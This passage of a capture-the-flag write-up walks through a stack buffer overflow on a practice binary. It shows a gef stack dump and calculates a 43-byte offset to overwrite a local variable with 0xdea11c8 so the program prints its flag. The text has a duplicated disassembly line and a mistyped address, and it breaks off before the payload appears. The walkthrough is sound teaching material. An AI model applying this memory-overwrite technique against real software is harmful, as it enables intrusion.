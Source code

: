 ```bash
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/64w $esp
0xffffd110:    0x0    0x0    0x1000000    0x73657409
0xffffd120:    0x6b650074    0x65687420    0x6c6f4820    0x72472079
0xffffd130:    0x2e6c6961    0xf7fd000a    0xf7d934be    0xf7fbe4a0
0xffffd140:    0xffffd180    0xf7fbe66c    0x0    0x2
0xffffd150:    0xffffd170    0xf7fa1000    0xf7ffd020    0xf7d9c519
0xffffd160:    0xffffd3d8    0x70    0xf7ffd000    0xf7d9c519
0xffffd170:    0x1    0xffffd224    0xffffd22c    0xffffd190
0xffffd180:    0xf7fa1000    0x56555779 <main>    0x1    0xffffd224
0xffffd190:    0xf7fa1000    0xffffd224    0xf7ffcb80    0xf7ffd020
0xffffd1a0:    0xfe406556    0xb26b2f46    0x0    0x0
0xffffd1b0:    0x0    0xf7ffcb80    0xf7ffd020    0xb9bd5200
0xffffd1c0:    0xf7ffda40    0xf7d9c4a6    0xf7fa1000    0xf7d9c5f3
0xffffd1d0:    0x0    0x0    0x0    0x0
0xffffd1e0:    0x0    0x0    0xf7d9c56d    0x56556fb0
0xffffd1f0:    0x1    0x565555c0 <_start>    0x0    0x565555f1 <_start+49>
0xffffd200:    0x56555779 <main>    0x1    0xffffd224    0x565558f0 <__libc_csu_init>
```

Looking at the stack we see our input to the last question "What is my secret?", and our response "test" at 0xffffd11c. We also see ebp is set to 0xffffd158, so ebp-0x10 would be 0xffffd148. 0xffffd148 is stack address of the variable that will be compared with 0xdea11c8, and they must be equal to call `print_flag`. Further up in the disassembly we saw ebp-0x10 was set to zero:

```bash
0x565557b4 <+59>:    mov    DWORD PTR [ebp-0x10],0x00x565557b4 <+59>:    mov    DWORD PTR [ebp-0x10],0x0
```

When we check the stack we see that it has remained at zero: 

```bash
0xffffd140: 0xffffd180  0xf7fbe66c `0x0` 0x2
```

Since it is still zero we will need to modify the value to successfully pass the `cmp` check. To do this, we'll need to break out of the buffer and write the value 0xdea11c8 to 0xffffd148 (ebp-0x10). Given the buffer for our input starts at 0xffff11c, we need to calculate how bytes need to be written to reach 0xffffd148. We can calculate it by doing 0xffffd148 - 0xffffd11c or (0x48 - 0x11c) to shorten it. Using python we see that the difference is 2b (we minus 0x01 because we only want the difference upto not including 0xffffd148): 

```bash
root-at-iyn@Ubuntu-220403-x86-64:~/Nightmare/BufferOverflow/Variable$ python3 -c "print(hex(0x48 - 0x1c -0x1))"
0x2b
```

Now we know we need to send 0x2b bytes (43) to reach the variable ebp-0x10. To send the exploit, we use pwn tools to send 43 A's and then append this with 0xdea11c8. Since we're using python3, we'll need to specify byte strings rather than the default which is unicode strings:
